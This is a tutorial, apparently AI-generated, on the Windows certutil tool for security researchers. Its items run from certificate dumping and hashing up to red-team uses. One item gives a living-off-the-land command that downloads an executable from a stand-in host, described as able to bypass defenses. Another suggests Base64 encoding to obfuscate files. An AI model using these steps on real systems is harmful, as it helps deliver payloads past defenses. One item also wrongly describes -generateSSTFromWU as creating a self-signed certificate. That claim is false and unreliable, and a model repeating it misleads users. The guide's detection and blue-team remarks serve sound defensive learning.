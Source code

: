 `certutil` is a versatile command-line tool in [[Windows]] that is part of the Certificate Services. It can be used for a variety of tasks like managing certificates, encoding/decoding, downloading files, and even hashing. Below is a progression from beginner to advanced use cases for a security researcher.

### Beginner Level

1. **Basic Information on Certutil**
   To get general help about the `certutil` command and all available subcommands:
   ```bash
   certutil -help
   ```

2. **Displaying Certificate Information**
   You can use `certutil` to display information about a certificate file, such as a `.cer`, `.pfx`, or `.crt` file:
   ```bash
   certutil -dump C:\path\to\certificate.cer
   ```
   This displays a detailed dump of the certificate's properties, including its public key, validity dates, and extensions.

3. **Checking CA Certificates**
   To list all the certificates in the local machine’s trusted root certification authority (CA) store:
   ```bash
   certutil -store -enterprise root
   ```

### Intermediate Level

4. **Hashing Files**
   One of the useful functions of `certutil` is its ability to compute file hashes for integrity verification. You can hash files using various algorithms like MD5, SHA1, or SHA256:
   ```bash
   certutil -hashfile C:\path\to\file.txt SHA256
   ```

5. **Exporting Certificates**
   Exporting a certificate from a certificate store using `certutil` can be useful for analysis or backup:
   ```bash
   certutil -store my | findstr "Serial"
   ```
   Once you locate the serial number, export the certificate using:
   ```bash
   certutil -exportcert -out C:\path\to\exported.cer -store my <serial_number>
   ```

6. **Viewing Revocation List**
   A certificate revocation list (CRL) is important in determining the validity of certificates. You can display a CRL file like this:
   ```bash
   certutil -dump C:\path\to\crl.crl
   ```

### Advanced Level (Pro)

7. **Downloading Files (Living Off the Land)**
   As a security researcher or red teamer, `certutil` is often used to download files from remote locations. This is because `certutil` is a trusted binary and may bypass defenses:
   ```bash
   certutil -urlcache -split -f http://example.com/file.exe C:\path\to\output.exe
   ```
   *Note:* This usage can be abused for malicious purposes, so it's monitored by many security solutions.

8. **Encoding and Decoding Files**
   Certutil can be used to encode or decode files in Base64. This is useful for obfuscating files or for situations where only text-based transfer is allowed:
   - **Encoding**:
     ```bash
     certutil -encode C:\path\to\file.txt C:\path\to\encoded.txt
     ```
   - **Decoding**:
     ```bash
     certutil -decode C:\path\to\encoded.txt C:\path\to\decoded.txt
     ```

9. **Creating Your Own Certificates (Self-Signed)**
   You can create your own self-signed certificate for testing purposes:
   ```bash
   certutil -generateSSTFromWU C:\path\to\selfsigned.sst
   ```
   This is typically used in scenarios where you need a test certificate for web application security testing, though it’s less common in production.

10. **Viewing and Manipulating Active Directory Certificates**
    In a domain environment, you may need to enumerate certificates related to Active Directory:
    ```bash
    certutil -dcinfo
    ```
    This command can be helpful during penetration tests for enumerating certificates that could be leveraged in attacks like Kerberos.

11. **Forensic Use: Parsing EFS (Encrypted File System) Certificates**
    In digital forensics, you may want to extract EFS-related certificates for analysis:
    ```bash
    certutil -user -store my
    ```

### Security Considerations

As a security researcher or red teamer, bear in mind the following:
- **Monitoring**: `certutil` usage, especially for file downloads or Base64 encoding/decoding, is often monitored by endpoint detection and response (EDR) tools. Make sure to test in isolated environments.
- **Obfuscation**: Adversaries often use `certutil` for malicious activities due to its availability on most Windows machines. Understand how to detect and monitor its usage in your blue team efforts.

Do you want to dive deeper into a particular use case or explore more advanced scenarios?